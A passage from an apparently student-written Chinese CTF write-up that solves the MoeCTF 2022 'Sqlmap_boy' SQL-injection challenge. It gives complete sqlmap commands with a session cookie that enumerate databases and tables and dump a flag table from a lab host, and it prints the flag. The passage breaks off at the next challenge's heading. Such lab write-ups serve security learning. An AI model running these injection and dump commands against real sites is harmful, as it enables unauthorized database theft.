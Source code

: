 # 2025-1-15 Misc中级

## List

## 1. [MoeCTF 2022]Sqlmap_boy

### 1.1 题目描述

- 开启环境后是一个网站，如图所示

![alt text](image.png)

### 1.2 解答

1. 首先我们尝试`admin`/`admin`尝试进行登录。

![alt text](image-1.png)

2. 发现登陆成功，但是没有任何信息可言。

![alt text](image-2.png)

3. 根据题目名字提示，我们使用sqlmap进行注入。但是由于我不会sqlmap，所以我们开始配置学习sqlmap。

4. 首先我们找到sqlmap的github仓库 https://github.com/sqlmapproject/sqlmap ，然后找到想要放置的文件夹，接着克隆这个仓库，之后我们进入这个仓库的文件夹下，就可以用命令行以运行python代码的方式进行工具的调用了。

5. 具体简单的使用方法参见下图，图片来源：https://blog.csdn.net/qq_61553520/article/details/130156864 。此链接内有详细的关于sqlmap的介绍和使用。

![alt text](image-3.png)

6. 现在我们使用sqlmap开始扫描整个可能存在的数据库，一定要添加`--cookie`，否则扫不出来。命令如下：

```bash
python sqlmap.py -u "http://node5.anna.nssctf.cn:27682/secrets.php?id=1" --cookie="PHPSESSID=b85da6ba5664bb0be8da1154e89b0570" --dbs
```

7. 扫描结果如下：

![alt text](image-4.png)

8. 根据经验，moectf表格最可疑，现在我们开始扫描数据库中的表，命令如下：

```bash
python sqlmap.py -u "http://node5.anna.nssctf.cn:27682/secrets.php?id=1" --cookie="PHPSESSID=b85da6ba5664bb0be8da1154e89b0570" --tables -D moectf
```

9. 扫描结果如下：

![alt text](image-5.png)

10. 看见flag表格，直接爆破其中所有内容。所用命令如下：

```bash
python sqlmap.py -u "http://node5.anna.nssctf.cn:27682/secrets.php?id=1" --cookie="PHPSESSID=b85da6ba5664bb0be8da1154e89b0570" -D moectf -T flag --dump-all
```

11. 扫描结果如下：

![alt text](image-6.png)

12. 发现flag，直接复制即可。

NSSCTF{e3ff4aef-81a4-4c8f-83ba-7d2df32d994f}

## 2. [HDCTF 2023]LoginMaster

### 2.1 题目描述

